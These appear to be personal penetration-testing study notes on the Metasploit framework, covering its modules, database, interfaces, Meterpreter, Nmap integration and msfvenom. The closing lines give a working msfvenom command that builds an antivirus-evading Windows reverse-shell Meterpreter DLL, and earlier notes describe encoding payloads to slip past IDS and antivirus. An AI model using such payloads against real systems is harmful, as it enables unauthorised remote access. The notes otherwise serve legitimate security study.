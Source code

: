 Metasploit is an exploitation framework 
Exploit is a piece of code that takes advantage us a given vulnerability in the target, with the purpose of running a payload that does a indented action of the target. 

Metasploit also have other modules such as auxiliary which provide other capabilities such as port scanning, vulnerability checks, and other features. 
Another module is called post which is used after the exploitation phase, such as steal valuable information. 

Metasploit can both access a local or remote PostgreSQL database for storing and analyzing results.
- Contains information about creds, loot, notes, hosts, services, vulns on host. 
- One way to enrich information in database is using auxiliary modules.
you can interact with the information using the name of the table
	- example of usage https://www.offensive-security.com/metasploit-unleashed/using-databases/
	
User interfaces
msfconsole metasploit command prompt. 
msfd a listens on TCP port 55554, allowing msfconsole access.
msfrpcd control metasploit through XML over RPC on TCP port 55553
Armitage is a GUI that controls metasploit through msfrpcd, is no longer updated  
msfcli 
maspayload convert payload into a stand-alone file
msfencode take a raw payload and encode it to evade strict signature of [[IDS]], [[IPS]] and [[Anti-virus]].  


Metasploit cheat sheet: https://www.sans.org/security-resources/sec560/misc_tools_sheet_v1.pdf

Metasploit meterpreter acts as a shell running inside of a exploited process
	- no process created. 
	- works on wind, linux, php, java and mac.
	- communication is encrypted with TLS. 
Meterpreter commands can be seen in the cheat sheet. 
msfmap is a port scanning module that can be loaded.
	load msfmap 
	
Metasploit nmap interaction
	- using db-nmap allows you to invoke [[Nmap]] from metasploit. 
	- Commands are the same as Nmap. 
	
Import data from [[Vulnerability Scanning]]
	- using db_import {filename} 
	allows metasploit to automatically import the information from the file, 
	and added to the host. 
	 Supported scanners file 
	 	- [[Nmap]]
	 	- NeXpose
		- [[Nessus]]
		
		 ^998485
import module from exploit_db 
download the module to the folder 
/root/.msf4/modules/
msfdb reinit to restart the database 
start msfconsole 
search for the new exploit


### Exploits 
#### web_delivery module 
One line python command which can be use to create a reverse_tcp meterpreter connection by opening a url in python and downloading the exploit from the hacker site. 


### MSFVenom 
is a combination of msfpayload and masfencode putting these tools into a single framework instance is allows the user to create a payload which can be used on the target machine, MSFVenom allows the payload to be target to different platforms and formats. another tools msfvenom also comes with is encoded or scrambling of the payload to ensure that the anti virus does not detect the malware. 
shikata_ga_nai is a common encoding type used for scrambling the malware. 
2
usage : 
msfvenom -p windows/meterpreter/reverse_tcp lhost=<your ip>  lport=4444 -e x86/shikata_ga_nai -i 10 -f dll > payload.dll